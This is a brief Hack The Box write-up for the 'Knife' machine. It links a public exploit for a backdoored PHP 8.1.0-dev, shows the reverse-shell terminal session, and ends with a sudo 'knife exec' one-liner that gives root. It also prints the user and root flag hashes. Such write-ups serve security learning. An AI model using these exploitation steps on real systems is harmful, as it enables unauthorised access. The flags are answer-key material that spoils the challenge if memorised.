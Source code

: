 ```yaml
---
title: "Knife from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Knife from HTB
site uses `php 8.1.0`which is exploitable. Code for reverse shell is available in this `github repository`
https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py
execute that script and you will get `reverse shell`
***
User Flag is: c34d0950352a6c385a671f54eeeee9bc
***
After running `linpeas`we find this
```
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
then i found this
https://gtfobins.github.io/gtfobins/knife/
we can do `privilege escaltion with this`
```
james@knife:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
james@knife:/$
zsh: suspended  rlwrap nc -nvlp 1234

stty raw -echo;fg
[1]  + continued  rlwrap nc -nvlp 1234
james@knife:/$ export TERM=xterm
export TERM=xterm
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
sudo knife exec -E 'exec "/bin/sh"'
#
```
****
Root Flag is: dc9bc9b178e4e2b8001667b559a2d479
***
![screen](/assets/images/2024-09-01_21-22-26.png)
